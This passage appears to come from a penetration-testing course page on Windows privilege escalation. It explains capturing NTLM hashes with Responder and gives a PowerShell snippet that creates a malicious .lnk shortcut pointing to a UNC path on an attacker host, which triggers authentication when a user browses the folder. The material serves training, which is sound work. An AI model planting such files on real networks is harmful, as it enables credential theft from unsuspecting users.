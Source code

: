 
Note: In our example, wait 2-5 minutes for the "user" to browse the share after starting Responder.

---

## Capturing Hashes with a Malicious .lnk File

Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:

#### Generating a Malicious .lnk File

Interacting with Users

```powershell-session

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.webp
"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

Try out this technique on the target host to familiarize yourself with the methodology and add another tactic to your arsenal for when you encounter environments where Server 2019 is prevalent.
